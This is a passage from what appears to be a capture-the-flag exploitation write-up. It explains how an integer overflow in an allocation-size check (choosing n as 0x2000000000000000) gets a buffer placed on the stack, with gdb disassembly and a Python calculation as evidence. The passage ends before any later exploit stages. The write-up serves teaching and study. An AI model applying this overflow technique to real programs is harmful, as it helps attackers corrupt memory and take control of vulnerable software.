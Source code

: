 # 3. Exploit

### Stage 1: Get exe address

First, we want `n * sizeof(Item)` to be zero so that we can allocate chunk on stack. Disassemble with gdb-gef about this check, we can see that:

```bash
gef➤  disas main
   ...
   0x0000555555400b22 <+117>: mov    rbx,rax
   0x0000555555400b25 <+120>: lea    rax,[rax*8+0x0]
   0x0000555555400b2d <+128>: cmp    rax,0xfbf
   0x0000555555400b33 <+134>: ja     0x555555400bc6 <main+281>
   ...
End of assembler dump.
```

With rax is the value of `n`, which is saved to rbx as a backup. Next, `n` will be multiplied by 8 so if we can make rax multiply and result to `0x10000000000000000` (9 bytes in total), rax will be converted to 0 and of course lower than 0xfbf.

So our aim is to make `n * sizeof(Item)` to `0x10000000000000000`, hence, `n` will be:

```python
>>> int(0x10000000000000000 / 8)
2305843009213693952
>>> hex(2305843009213693952)
'0x2000000000000000'    # 8 bytes in total
```

With `sizeof(Item)` is 8 as I explained above. After we input `0x2000000000000000`, we now can control the stack because the allocated chunk is on the stack, not in heap and with a large n, we can change stack at anywhere we want (but can only change the higher stack, not lower one).

And before we jump to function input_all_data(), the function just take 4 least significant bytes of `n` and pass to it:

```bash
gef➤  disas main
   ...
   0x0000555555400b58 <+171>: mov    esi,ebx
   0x0000555555400b5a <+173>: mov    rdi,r13
   0x0000555555400b5d <+176>: call   0x555555400a5b <input_all_data>
   ...
End of assembler dump.
```

With rbx is the value of `n`. But because we input `0x2000000000000000` so rbx contains `0x2000000000000000`, but ebx is just `0x00000000`. So we pass the function input_all_data() and don't need to input anything

Next, the program will do the same thing before it jump to calc_total():

```bash
gef➤  disas main
   ...
   0x0000555555400b62 <+181>: mov    esi,ebx
   0x0000555555400b64 <+183>: mov    rdi,r13
   0x0000555555400b67 <+186>: call   0x555555400a85 <calc_total>
   0x0000555555400b6c <+191>:  mov    rdx,rax
   ...
End of assembler dump.
```
